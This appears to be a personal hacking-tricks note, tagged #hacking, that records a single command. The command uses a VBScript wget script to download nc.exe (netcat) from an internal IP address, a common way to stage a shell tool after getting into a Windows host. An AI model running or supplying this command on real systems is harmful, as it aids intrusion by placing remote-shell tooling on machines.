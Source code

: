 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

` zet/20221003151228/README.md `

# Related

- [20221013222124](/zet/20221013222124/README.md) concept hub for tricks and tips
- [20221014185547](/zet/20221014185547/README.md) kb file named kb/hacking/tricks/vbscript-wget-hack.md
- [20221003151230](/zet/20221003151230/README.md) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:

    #hacking #trick #vbscript 
